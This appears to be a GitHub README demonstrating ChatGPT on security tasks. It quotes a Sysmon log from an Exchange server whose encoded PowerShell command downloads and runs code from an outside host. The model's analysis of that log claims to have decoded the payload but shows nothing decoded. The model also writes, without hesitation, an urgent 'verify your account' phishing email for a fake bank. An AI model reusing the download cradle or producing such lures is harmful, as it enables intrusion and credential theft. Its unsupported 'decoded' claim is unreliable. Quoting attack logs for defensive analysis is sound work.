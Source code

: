 # *-chatgpt-ai-examples

***1. Suspicious Event Unpacking and Explanation***

`OpenAI prompt: please analyze the suspicious event below and explain what's going on.`

<14>Mar 10 07:21:45 mail1.ionxsecure.com MSWinEventLog  1   Microsoft-Windows-Sysmon/Operational    60  Wed Mar 10 07:21:45 2021    1   Microsoft-Windows-Sysmon    SYSTEM  User    Information mail1.ionxsecure.com    Process Create (rule: ProcessCreate)        Process Create:  RuleName: technique_id=T1059.003,technique_name=Windows Command Shell  UtcTime: 2021-03-10 13:21:45.504  ProcessGuid: {B2FBB6B8-C7E9-6048-1F25-000000001D00}  ProcessId: 12816  Image: C:\Windows\System32\cmd.exe  FileVersion: 10.0.14393.0 (rs1_release.160715-1616)  Description: Windows Command Processor  Product: Microsoft® Windows® Operating System  Company: Microsoft Corporation  OriginalFileName: Cmd.Exe  CommandLine: "cmd.exe" /c powershell -ep bypass -e SQBFAFgAIAAoAE4AZQB3AC0ATwBiAGoAZQBjAHQAIABOAGUAdAAuAFcAZQBiAEMAbABpAGUAbgB0ACkALgBkAG8AdwBuAGwAbwBhAGQAcwB0AHIAaQBuAGcAKAAnAGgAdAB0AHAAOgAvAC8AcAAuAGUAcwB0AG8AbgBpAG4AZQAuAGMAbwBtAC8AcAA/AGUAJwApAA==  CurrentDirectory: c:\windows\system32\inetsrv\  User: NT AUTHORITY\SYSTEM  LogonGuid: {B2FBB6B8-1CF1-6043-E703-000000000000}  LogonId: 0x3E7  TerminalSessionId: 0  IntegrityLevel: System  Hashes: SHA1=99AE9C73E9BEE6F9C76D6F4093A9882DF06832CF,MD5=F4F684066175B77E0C3A000549D2922C,SHA256=935C1861DF1F4018D698E8B65ABFA02D7E9037D8F68CA3C2065B6CA165D44AD2,IMPHASH=3062ED732D4B25D1C64F084DAC97D37A  ParentProcessGuid: {B2FBB6B8-1DC2-6043-A300-000000001D00}  ParentProcessId: 10400  ParentImage: C:\Windows\System32\inetsrv\w3wp.exe  ParentCommandLine: c:\windows\system32\inetsrv\w3wp.exe -ap "MSExchangeOWAAppPool" -v "v4.0" -c "C:\Program Files\Microsoft\Exchange Server\V15\bin\GenericAppPoolConfigWithGCServerEnabledFalse.config" -a \\.\pipe\iisipm6ad061fd-1d32-4f0c-9631-cc382e98f5ef -h "C:\inetpub\temp\apppools\MSExchangeOWAAppPool\MSExchangeOWAAppPool.config" -w "" -m 0   19182

*OpenAI Response: This event is a process creation event generated by Sysmon. It appears that a Windows Command Shell (cmd.exe) was created with parameters to run a Powershell script. The process was created by user NT AUTHORITY\SYSTEM and it is likely that the system was compromised and the attacker is running a malicious script.*

`OpenAI prompt: analyze the parameters and the powershell script, decode the base64 argument, and explain what the script does.`

*OpenAI Response: The parameters of the Powershell script indicate that the script is attempting to bypass security restrictions and execute arbitrary code. The base64 argument is likely a payload containing malicious code. After decoding the base64 argument, it appears that the script is attempting to download a file from a remote source and then execute it. This type of attack is often used to download and execute malware on the system.*

***2. Creating phishing email***

`OpenAI prompt:` 
> Write an email that requires immediate action with a link https://www.fakebank.com/account-login?ref=12345&verify=true

`OpenAI Response: `
>Subject: Urgent - Action Required
>
>Dear [Recipient],
>
>We need your immediate action to ensure your account security.
>
>Please click on the link below to verify your account and ensure the security of your account at Fake Bank:
>
>https://www.fakebank.com/account-login?ref=12345&verify=true
>
>Please complete this verification process as soon as possible.
>
>Thank you for your prompt attention to this matter.
>
>Sincerely,
>[Your Name]
